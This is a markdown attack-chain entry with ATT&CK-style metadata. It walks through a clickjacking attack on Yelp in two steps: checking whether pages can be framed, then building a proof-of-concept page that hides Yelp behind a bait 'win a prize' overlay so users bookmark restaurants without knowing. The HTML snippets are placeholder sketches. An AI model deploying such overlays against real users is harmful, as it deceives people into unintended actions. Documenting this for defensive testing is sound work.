

---
tags:
  - clickjacking
  - ui-redressing
  - web-vulnerability
  - yelp
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Clickjacking-Vulnerability-on-Yelp-Pages]]'
  - '[[procedures/Demonstrate-Clickjacking-POC-for-Bookmarking-Manipulation]]'
step_count: 2
techniques:
  - '[[Drive-by Compromise]]'
  - '[[User Execution]]'
updated_at: '2025-12-14T17:28:04.434Z'
description: >-
  A multi-stage attack demonstrating clickjacking on Yelp's website to
  manipulate user actions like bookmarking restaurants without their knowledge.
id: 7600674f-9706-4589-8b54-5279175f0cd5
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[User Execution]]'
---
# Clickjacking on Yelp to Trick Users into Bookmarking Arbitrary Restaurants

Multi-stage attack chain demonstrating a complete attack workflow exploiting a clickjacking vulnerability on Yelp's website.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Novice |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)

### Target Environment

- Web platform
- Access to Yelp website (publicly accessible)
- No specific ports or services required beyond standard HTTPS (443)

### Initial Access Requirements

- No credentials needed (public site)
- Attacker controls a malicious website to host the iframe
- User must visit the attacker's site while authenticated on Yelp

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Page
procedure: [[procedures/Identify-Clickjacking-Vulnerability-on-Yelp-Pages]]

**Objective**: Locate a Yelp page lacking X-Frame-Options protection that can be embedded in an iframe.

**Instructions**: Open the Yelp website in a browser and navigate to pages related to restaurant bookmarking. Use developer tools to inspect network requests and check for the presence of the X-Frame-Options header. Attempt to embed the page in a local HTML file using an iframe to test if it loads without restrictions.

Create a simple test HTML file:

```html
<!DOCTYPE html>
<html>
<head><title>Test</title></head>
<body>
<iframe src="https://www.yelp.com/[vulnerable-page-url]" width="800" height="600"></iframe>
</body>
</html>
```

Load this file in the browser. If the Yelp page embeds successfully, the vulnerability exists.

**Expected Output**: The Yelp page loads inside the iframe without blocking.

**Success Indicators**:
- No X-Frame-Options: DENY or SAMEORIGIN header observed
- Iframe embeds the target page fully

### Step 2: Create PoC for Bookmarking Manipulation
demonstrate: [[procedures/Demonstrate-Clickjacking-POC-for-Bookmarking-Manipulation]]

**Objective**: Overlay a malicious interface on the embedded Yelp page to trick users into clicking and bookmarking arbitrary restaurants.

**Instructions**: Build a proof-of-concept webpage that embeds the vulnerable Yelp page in an iframe and overlays transparent elements to redirect clicks to the bookmark button for a chosen restaurant. Host this on a server or locally for demonstration.

Example PoC HTML structure:

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking PoC</title>
<style>
  iframe { position: absolute; top: 0; left: 0; opacity: 0.5; }
  .overlay { position: absolute; top: [pixel-offset-to-bookmark]; left: [pixel-offset-to-bookmark]; width: [button-width]; height: [button-height]; background: transparent; z-index: 1; }
  .bait { position: absolute; top: 0; left: 0; z-index: 2; } /* Bait element to lure click */
</style>
</head>
<body>
  <div class="bait">Click here to win a prize!</div>
  <iframe src="https://www.yelp.com/[restaurant-page]" width="800" height="600"></iframe>
  <div class="overlay" onclick="bookmarkRestaurant()"></div>
  <script>
    function bookmarkRestaurant() {
      // Simulate or redirect to actual bookmark action
      alert('Bookmarked!');
    }
  </script>
</body>
</html>
```

Adjust offsets based on the page layout to align the overlay with the bookmark button. Record a video demonstrating a user clicking the bait, which triggers the hidden bookmark action.

**Expected Output**: User clicks bait, resulting in unintended bookmarking on Yelp.

**Success Indicators**:
- Click on overlay triggers bookmark without user awareness
- Video PoC shows the manipulation

## Attack Chain Summary

### Key Achievements

1. Identified a framable Yelp page post-remediation
2. Created a functional clickjacking PoC for UI manipulation
3. Demonstrated low-impact user deception for bookmarking actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[User Execution]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
